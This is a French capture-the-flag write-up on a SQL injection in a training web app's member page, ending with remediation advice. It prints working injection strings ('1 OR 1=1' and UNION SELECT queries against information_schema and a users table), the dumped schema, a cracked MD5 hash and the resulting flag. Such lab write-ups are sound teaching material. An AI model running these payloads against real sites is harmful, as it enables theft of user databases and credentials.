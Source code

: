 # SQL injection 1

#### Page: _/index.php?page=member_


## Description de la vulnerabilité :
Taper n'importe quelle chaîne de caractères dans le champ `id` renvoie une erreur indiquant l'utilisation d'une base de donnée SQL côté serveur.
La requête est réalisée en méthode GET et les paramètres sont passés dans l'URL :
```
/?page=member&id=lala⋐mit=Submit#
```

On teste `1 OR 1=1` comme valeur d'`id` et on obtient:
```
ID: 1 or 1=1
First name: Barack Hussein
Surname : Obama

ID: 1 or 1=1
First name: Adolf
Surname : Hitler

ID: 1 or 1=1
First name: Joseph
Surname : Staline

ID: 1 or 1=1
First name: Flag
Surname : GetThe
```

Cela indique que ce que l'on passe dans l'`id` est interprété côté serveur comme du SQL.
On détermine également que deux colonnes sont renvoyées par la requête SQL.

On utilise `information_schema` qui permet de récupérer des metadatas de la base de données SQL.

L'injection SQL suivante nous permet d'obtenir les schémas et les tables de la base :
```
/?page=member&id=1 union select table_schema, table_name from information_schema.tables&Submit=Submit#
```
 On détermine ainsi les tables:
 ```
 db_default.Member_Brute_Force
 Member_Sql_Injection.users
 Member_guestbook.guestbook
 Member_images.list_images
 Member_survey.vote_dbs
 ```

À l'aide de l'injection suivante, on récupère les colonnes de l'ensemble des tables :
```
/?page=member&id=1 union select table_name, column_name from information_schema.columns &Submit=Submit#
```

On utilise la commande `UNION` de SQL qui permet de mettre bout-à-bout les résultats de plusieurs requêtes.

Ainsi, on détermine que la base de données ressemble à :  
Table `db_default`:
```
id
username
password
```

Table `users`:
```
user_id
first_name
last_name
town
country
planet
Commentaire
countersign
```

Table `guestbook`:
```
comment
name
id_comment
```

Table `list_images`:
```
id
url
title
comment
```

Table `vote_dbs`:
```
id_vote
vote
nb_vote
subject
```

On teste l'ensemble des colonnes pour ` Member_Sql_Injection.users`.
Avec:
```
/?page=member&id=1 union select Commentaire, countersign from%20 Member_Sql_Injection.users &Submit=Submit#
```
On finit par tomber sur:
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

`5ff9d0165b4f92b14994e5c685cdce28` est un hash md5 de `FourtyTwo`.
On passe `FourtyTwo` en `lowercase` puis on hash en sha256:
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Scénario d'attaque :
Une vulnérabilité de type injection SQL peut permettre d'accéder ou de modifier une base de données de type SQL.
Dans certains cas, comme celui-ci, la faille permet de récupérer l'intégralité du contenu de la base, dont les identifiants et les mots de passe des utilisateurs du site.

## Correctifs :
- Utiliser `mysqli_real_escape_string()` afin d'échapper les caractères spéciaux provenant des entrées utilisateur.
- Utiliser des procédures stockées, qui sont des instructions SQL précompilées,  à la place du SQL dynamique.
- La plupart des ORM utilisent des systèmes de requêtes préparées dans lesquelles le SGBD se charge alors de l’échappement et du contrôle des requêtes.
